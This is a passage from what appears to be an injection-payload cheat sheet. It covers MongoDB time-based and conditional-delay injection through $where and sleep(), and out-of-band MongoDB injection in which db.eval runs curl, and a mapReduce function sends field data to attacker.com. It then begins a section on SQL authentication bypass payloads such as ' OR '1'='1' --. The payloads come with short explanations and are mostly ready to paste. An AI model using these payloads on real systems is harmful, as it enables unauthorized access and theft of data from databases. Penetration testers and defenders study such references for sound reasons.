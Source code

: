 ```
db.collection.find({ $where: "function() { sleep(5000); return true; }" })
```

- **Conditional Delay:** Delays execution based on a condition. Causes a delay only if a specific condition is true, allowing the attacker to infer information based on the delay.

```
db.collection.find({ $where: "function() { if (this.username == 'admin') { sleep(5000); } return true; }" })
```

### Out-of-Band MongoDB Injection
MongoDB doesn't natively support out-of-band techniques like traditional SQL databases, but certain operations can be manipulated for OOB-like behavior if the environment is misconfigured (e.g., MongoDB running with elevated privileges and network access).

- **Command Injection with Networking:** Attempts to use MongoDB shell or system calls for out-of-band communication. If the `eval()` function is enabled (highly insecure and deprecated), this could run a shell command that communicates with an attacker-controlled server.

```
db.eval("require('child_process').exec('curl http://attacker.com/?data=' + this.field)")
```

- **Malicious `mapReduce` Function:** Attempts to send data to an external server by exploiting a `mapReduce` operation. The map-reduce operation executes JavaScript on the server, potentially sending data to an external server.

```
db.collection.mapReduce(
    function() { emit(this.field, null); },
    function(key, values) {
        require('http').get('http://attacker.com/?key=' + key);
        return null;
    },
    { out: { inline: 1 } }
)
```

# Authentication Bypass Payloads
Authentication bypass via SQL Injection typically involves crafting SQLi payloads that manipulate the authentication logic in such a way that the attacker gains unauthorized access without providing valid credentials. Below are several examples of SQL injection payloads for bypassing authentication.

## Classic Authentication Bypass
Bypass the authentication by modifying the SQL query logic to always return true.

- **Single Quote Bypass:** This payload terminates the username string, introduces an OR condition that is always true (`'1'='1'`), and comments out the rest of the SQL query, bypassing the password check.

```
' OR '1'='1' --
```
